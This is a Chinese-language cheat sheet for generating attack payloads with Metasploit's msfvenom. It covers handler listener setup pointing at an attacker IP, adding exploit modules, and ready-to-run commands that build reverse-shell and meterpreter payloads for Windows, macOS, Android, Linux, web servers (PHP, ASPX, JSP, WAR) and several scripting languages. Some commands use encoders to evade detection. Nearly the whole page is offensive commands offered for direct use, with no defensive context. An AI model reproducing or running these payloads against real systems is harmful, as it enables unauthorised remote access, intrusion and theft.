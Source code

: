 ```yaml
---
title: msfvenom-生成攻击载荷-命令速查
categories:
- tools
tags:
- tools
---
```


参考资料：
- github-Micro8
- https://github.com/rapid7/metasploit-framework/wiki/Metasploit-5.0-Release-Notes
- https://www.hackers-arise.com/single-post/2017/06/08/Metasploit-Basics-Part-7-Adding-a-New-Module-EternalBlue

msfvenom -l payload 列出所有可用载荷

截至2019.3.4日，msf的版本为：metasploit v5.0.9-dev

| 命令 | 之前 | 现在 |
|---|---|---|
| 更新 | msfupdate | apt update; apt install metasploit-framework |
|handler监听| 命令1 | handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp |
|添加exploit | 命令2 | 命令3 |

命令1：
msfconsole -r job.rc

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```

命令2：`新建/root/.msf4/modules/exploits/new/xx.rb`

命令3: `新建usr/share/metasploit-framework/modules/exploits/unix/webapp/xx.rb`

>reload_all 
当载入新的metasploit 插件/payload，不用重启metasploit。

## windows:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o
payload.exe
```
## mac:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
```
## android:
```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
```
## powershell:
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```
## linux:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f elf -o payload.elf
```
## php:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
```
## aspx:
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
## jsp:
```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
```
## war:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
```
## nodejs:
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
```
## python:
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
```
## perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
```
## ruby:
```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
```
## lua:
```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
```
## windows shellcode:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
```
## linux shellcode:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
```
## mac shellcode:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```
